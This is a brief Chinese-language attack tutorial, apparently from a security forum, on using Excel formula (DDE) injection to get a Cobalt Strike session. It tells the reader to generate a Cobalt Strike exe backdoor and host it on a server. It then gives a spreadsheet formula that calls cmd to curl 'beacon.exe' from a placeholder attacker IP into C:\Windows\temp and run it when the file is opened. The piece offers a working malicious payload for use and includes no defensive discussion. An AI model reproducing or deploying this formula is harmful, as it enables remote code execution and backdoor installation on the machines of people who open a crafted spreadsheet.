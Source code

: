 **利用excel注入上线cs**

步骤一：使用cs生成exe后门，并放到服务器上

[![](assets/1701612327-5750055efa3d939a1edc106f59d283a1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173056-790edf6c-1f04-1.png)

步骤二：更换恶意代码

`=cmd| '/c curl http://xxx.xxx.xxx.xxx/beacon.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe' ! 'A1'`

[![](assets/1701612327-47803f3e39ec33241d1c1d1ce6512bbb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173202-a06f2b84-1f04-1.png)

当双击打开该excel时就会执行恶意代码下载cs后门并运行 ，上线cs

[![](assets/1701612327-51127911c02107e3362c40809d377c35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173211-a5bac094-1f04-1.png)